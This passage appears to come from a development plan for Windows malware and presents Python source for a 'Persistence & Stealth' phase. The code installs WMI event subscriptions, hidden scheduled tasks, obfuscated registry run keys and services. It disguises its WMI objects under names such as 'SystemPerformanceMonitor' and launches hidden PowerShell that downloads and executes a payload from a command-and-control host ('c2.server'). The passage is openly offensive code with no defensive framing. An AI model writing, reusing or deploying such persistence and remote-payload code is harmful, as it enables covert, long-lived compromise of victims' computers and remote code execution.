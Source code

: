 ```python
    
    return bytes(key)
```

---

## PHASE 4: PERSISTENCE & STEALTH (Week 9)

### 4.1 Elite Persistence

**File:** `Core/elite_commands/elite_persistence.py`

```python
def elite_persistence():
    """Install multiple persistence mechanisms"""
    
    methods_installed = []
    
    # Method 1: WMI Event Subscription (Most Stealthy)
    if _install_wmi_persistence():
        methods_installed.append("WMI Event")
    
    # Method 2: Hidden Scheduled Task
    if _install_scheduled_task():
        methods_installed.append("Scheduled Task")
    
    # Method 3: Registry Run Key (with obfuscation)
    if _install_registry_persistence():
        methods_installed.append("Registry")
    
    # Method 4: Service (if admin)
    if _is_admin() and _install_service():
        methods_installed.append("Service")
    
    return {"installed": methods_installed}

def _install_wmi_persistence():
    """Create WMI event subscription for persistence"""
    try:
        import win32com.client
        
        # Connect to WMI
        wmi = win32com.client.GetObject("winmgmts:")
        
        # Create Event Filter
        event_filter = wmi.Get("__EventFilter").SpawnInstance_()
        event_filter.Name = "SystemPerformanceMonitor"
        event_filter.QueryLanguage = "WQL"
        event_filter.Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime'"
        event_filter.Put_()
        
        # Create Command Line Consumer
        consumer = wmi.Get("CommandLineEventConsumer").SpawnInstance_()
        consumer.Name = "SystemPerformanceLogger"
        consumer.CommandLineTemplate = f"powershell.exe -w hidden -c \"IEX(New-Object Net.WebClient).DownloadString('http://c2.server/payload')\""
        consumer.Put_()
        
        # Bind them together
        binding = wmi.Get("__FilterToConsumerBinding").SpawnInstance_()
        binding.Filter = event_filter.Path_.Path
        binding.Consumer = consumer.Path_.Path
```